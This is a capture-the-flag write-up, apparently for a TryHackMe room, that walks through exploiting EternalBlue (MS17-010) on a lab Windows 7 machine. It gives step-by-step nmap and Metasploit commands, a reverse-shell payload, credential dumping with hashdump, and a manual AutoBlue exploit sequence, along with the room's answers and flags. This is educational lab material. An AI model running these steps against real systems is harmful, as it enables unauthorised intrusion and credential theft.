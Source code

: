 ### Info Sec Walkthrough
At first, deploy the attack box or run through the own machine.

![](https://miro.medium.com/v2/resize:fit:1167/1*6jgxeqclyFa0Se-LB63N2w.png)

![](https://miro.medium.com/v2/resize:fit:997/1*Wq642Ay__pYp07wzGkjrJw.png)

Then the first task they told to scan the machine for vulnerabilities.

Hint they have given to find vulnerabilities by using the command

> **Command: nmap -sV -vv — script vuln TARGET_IP**

Then after scanning the machine which shows a list of vulnerabilities in the machine.

![](https://miro.medium.com/v2/resize:fit:1082/1*Ih15U-W7UJAi8OA8x6jr9Q.png)

> **How many ports are open with a port number under 1000?**

**_Ans : 3_**

![](https://miro.medium.com/v2/resize:fit:718/1*W_Y9DfPYuZ8ksJrV4xwpew.png)

> **What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08–067)**

**_Ans: ms17–010_**

![](https://miro.medium.com/v2/resize:fit:1063/1*S8PMbO8_eGKOLQ1A6pbfTw.png)

Then start Metasploit by using the following command

> **$ msfconsole**
> 
> **Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/……..)**

**_Ans : exploit/windows/smb/ms17_010_eternalblue_**

Type **_use exploit/windows/smb/ms17_010_eternalblue_** in msfconsole

Then type **show options,** which would display RHOSTS and some other options like **SESSIONS** we have to enable it type **set RHOSTS target-IP** and

**set SESSIONS 1** and then type **Run.**

> **Show options and set the one required value. What is the name of this value? (All caps for submission)**

**_Ans: RHOSTS_**

> **Usually, it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:**

`**_set payload windows/x64/shell/reverse_tcp_**`

> **Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target.**

After running the exploit you can enter into a shell by typing the **shell** command

type **whoami** it would spot it admin name

To run back from shell to **meterpreter** type **_Ctrl + Z._**

It would ask background session 1 yes/no type **_yes_** get back to **_meterpreter._**

> **If you haven’t already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to a meterpreter shell in Metasploit. What is the name of the post-module we will use? (Exact path, similar to the exploit we previously selected)**

**_Ans: post/multi/manage/shell_to_meterpreter_**

> **Select this (use MODULE_PATH). Show options, what option are we required to change?**

**_Ans: SESSION_**

we want the post to exploit it by typing the following payload

**_use post/multi/manage/shell_to_meterpreter_**

After typing this payload enter **_show options_**

Enable **_lhost_** and **_session_**

type **_get-system_** command and **_ps_** command and migrate the process id

Type migrate **_PROCESS_ID_**

> **Within our elevated meterpreter shell, run the command ‘hashdump’. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?**

**_Ans: Jon_**

> **Copy this password hash to a file and research how to crack it. What is the cracked password?**

**_Ans: alqfna22_**

The next task is to find some flags :

here you type **_find -f flag*.txt_**

You can find flags for this task

> **Flag1? _This flag can be found at the system root._**

**_Ans : flag{access_the_machine}_**

> ***Errata: Windows really doesn’t like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen.**

**_flag{sam_database_elevated_access}_**

> **flag3? _This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved._**

**_flag{admin_documents_can_be_valuable}_**

### Used Commands & Tools
```bash
$ nmap -p- -A -T4 <Blue_Machine_IP>
PORT        STATE        SERVICE        VERSION
135/tcp     open         msrpc          Microsoft Windows RPC
139/tcp     open         netbios-ssn    Microsoft Windows netbios-ssn
445/tcp     open         microsoft-ds   Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds
```
Google Search: **Windows 7 Ultimate 7601 Service Pack 1**
Result: *CVE:2017-0144* **EternalBlue SMB Remote Code Execution (MS17-010)**
```bash
msfconsole
msf5 > search eternalblue
msf5 > use /auxiliary/scanner/smb/smb_ms17_010
msf5 (scanner/smb/smb_ms17_010) > set RHOST <Blue_IP>
msf5 (scanner/smb/smb_ms17_010) > run
HOST is likely Vulnerable to MS17-101

msf5 > use /exploit/windows/smb/ms17_010_eternalblue
msf5 (windows/smb/ms17_010_eternalblue) > set RHOST <Blue_IP>
msf5 (windows/smb/ms17_010_eternalblue) > Check
HOST is likely Vulnerable to MS17-101 (Same as Auxiliary)
msf5 (windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf5 (windows/smb/ms17_010_eternalblue) > set LHOST eth0
msf5 (windows/smb/ms17_010_eternalblue) > run

meterpreter > hashdump
Admin:Password_Hash
```

### Manual Exploitation
Google Search: **EternalBlue GitHub**
Result: [AutoBlue MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010/tree/master)
```bash
$ git clone https://github.com/3ndG4me/AutoBlue-MS17-010/tree/master
$ pip install -r requirements.txt
$ python eternal checker.py <Blue_IP>
```
**Running The Tool**
```bash
$ ./shell_prep.sh

y
<Blue_IP>
4444
2222
0
0
```
**Running A Listener**
```bash
$ ./listener_prep.sh

<Blue_IP>
4444
2222
0
0
```
**Exploitation**
```bash
python eternalblue exploit.py <Blue_IP> shellcode/sc_all.bin
# Note: The Machine might break when running this
```

### My Try Hack Me Solution
#### Recon
#### Gain Access
#### Escalate
#### Cracking
#### Finding Flags